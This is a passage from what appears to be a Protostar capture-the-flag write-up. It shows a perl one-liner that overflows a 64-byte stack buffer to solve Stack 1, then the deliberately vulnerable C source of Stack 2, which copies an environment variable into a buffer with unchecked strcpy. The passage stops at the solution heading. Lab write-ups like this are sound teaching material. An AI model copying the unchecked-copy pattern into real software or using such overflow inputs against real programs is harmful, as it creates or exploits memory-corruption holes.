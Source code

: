 To solve this, all we need to do is to reverse the order of abcd.
> abcd > dcba

```bash
user@protostar:/opt/protostar/bin$ ./stack1 $(perl -e 'print "A" x 64 . "dcba"')
you have correctly got the variable to the right value
```

We solved it :D

## Stack 2

### Challenge description

Stack2 looks at environment variables, and how they can be set.

This level is at `/opt/protostar/bin/stack2`

### Challenge source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### Challenge solution
